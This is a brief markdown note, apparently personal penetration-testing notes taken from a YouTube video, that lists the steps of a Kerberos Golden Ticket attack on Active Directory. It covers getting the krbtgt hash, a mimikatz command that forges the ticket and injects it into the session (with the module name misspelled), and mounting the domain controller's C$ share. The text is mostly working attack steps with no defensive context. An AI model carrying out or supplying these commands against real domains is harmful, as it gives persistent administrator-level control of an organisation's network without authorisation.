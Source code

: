 <!-- TITLE: Goldenticket -->
<!-- SUBTITLE: A quick summary of Goldenticket -->

# Golden ticket
From youtube video by VbScrub  https://www.youtube.com/watch?v=o98_eRt777Y

1.  Get the krbtgt hash
2.  Run mimikatz
3.  Get Domain sid from user and dropping last -uid from it (example drop -500 from administrator sid)
4.  kerberose::golden /domain:domainname.dom.us /sid:domainsid /user:Administrator /krbtgt:krbhash /ptt
5.  the above ptt alters the current login session.  otherwise saves as file (seems like saving as file is good but I don't know how to load from file into session).
6.  klist from cmd prompt will show what tickets you have.
7.  net use does kerberos auth - note that the dc might need to be the full machine name net use O: \\dc.domainname.dom.us\C$
